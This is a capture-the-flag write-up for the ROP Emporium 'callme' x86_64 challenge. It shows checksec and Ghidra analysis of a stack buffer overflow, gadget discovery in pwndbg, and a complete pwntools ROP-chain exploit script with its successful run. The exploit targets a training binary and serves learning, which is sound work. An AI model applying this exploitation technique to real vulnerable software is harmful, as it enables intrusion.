 # callme

## First look

```console
┌──(vein㉿vein)-[~/rop_emporium/callme]
└─$ checksec callme    
[*] '/home/vein/rop_emporium/callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```
```console
┌──(vein㉿vein)-[~/rop_emporium/callme]
└─$ ./callme    
callme by ROP Emporium
x86_64

Hope you read the instructions...

> test
Thank you!

Exiting
```
The NX is enabled so it prevents running code into the stack, so we can't do a shellcode attack

## Static Analysis

```c
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  puts("callme by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```

```c
void pwnme(void)

{
  undefined local_28 [32];
  
  memset(local_28,0,0x20);
  puts("Hope you read the instructions...\n");
  printf("> ");
  read(0,local_28,0x200);
  puts("Thank you!");
  return;
}
```
```c
void usefulFunction(void)

{
  callme_three(4,5,6);
  callme_two(4,5,6);
  callme_one(4,5,6);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```
We open Ghidra and we saw that a pwnme() function is called by the main. \
We see that has a buffer overflow in the local_28 variable cause it's 32 bytes long \
and the read() takes up to 512 = 0x200

# Exploitation
Challennge description says that to take the flag we must call \
callme_one(), callme_two() and callme_three() functions in that order, each with the arguments:
```text
0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
```
To achieve this we want some rop gadgets to pop the values into the stack. \
For our luck, we found a hide funtion inside pwndbg that has the gadgets that we need. \
Either way we could found them with ropper.
```asm
┌──(vein㉿vein)-[~/rop_emporium/callme]
└─$ gdb-pwndbg callme
Reading symbols from callme...
(No debugging symbols found in callme)
pwndbg: loaded 141 pwndbg commands and 47 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $ida GDB functions (can be used with print/break)
------- tip of the day (disable with set show-tips off) -------
GDB's set directories <path> parameter can be used to debug e.g. glibc sources like the malloc/free functions!
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini
pwndbg> disassemble usefulGadgets 
Dump of assembler code for function usefulGadgets:
   0x000000000040093c <+0>:     pop    rdi
   0x000000000040093d <+1>:     pop    rsi
   0x000000000040093e <+2>:     pop    rdx
   0x000000000040093f <+3>:     ret
End of assembler dump.
```

So, now we are ready to craft our payload.
Here is the python script
```python
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./callme', checksec=False)
p = process()
context.log_level = 'info'

offset = b'a' * 40

# pop rdi; pop rsi; pop rdx; ret;
pop_gadgets = 0x40093c

payload1 = offset
payload1 += p64(pop_gadgets)
payload1 += p64(0xdeadbeefdeadbeef)
payload1 += p64(0xcafebabecafebabe)
payload1 += p64(0xd00df00dd00df00d)
payload1 += p64(elf.symbols.callme_one)

payload2 = p64(pop_gadgets)
payload2 += p64(0xdeadbeefdeadbeef)
payload2 += p64(0xcafebabecafebabe)
payload2 += p64(0xd00df00dd00df00d)
payload2 += p64(elf.symbols.callme_two)

payload3 = p64(pop_gadgets)
payload3 += p64(0xdeadbeefdeadbeef)
payload3 += p64(0xcafebabecafebabe)
payload3 += p64(0xd00df00dd00df00d)
payload3 += p64(elf.symbols.callme_three)

payload = payload1 + payload2 + payload3

p.sendlineafter(b'>', payload)
log.info(p.recvall())
```
```console
┌──(vein㉿vein)-[~/rop_emporium/callme]
└─$ ./exploit.py   
[+] Starting local process '/home/vein/rop_emporium/callme/callme': pid 12129
[+] Receiving all data: Done (105B)
[*] Process '/home/vein/rop_emporium/callme/callme' stopped with exit code 0 (pid 12129)
/home/vein/.local/lib/python3.11/site-packages/pwnlib/log.py:396: BytesWarning: Bytes is nots
  self._log(logging.INFO, message, args, kwargs, 'info')
[*]  Thank you!
    callme_one() called correctly
    callme_two() called correctly
    ROPE{a_placeholder_32byte_flag!}
```
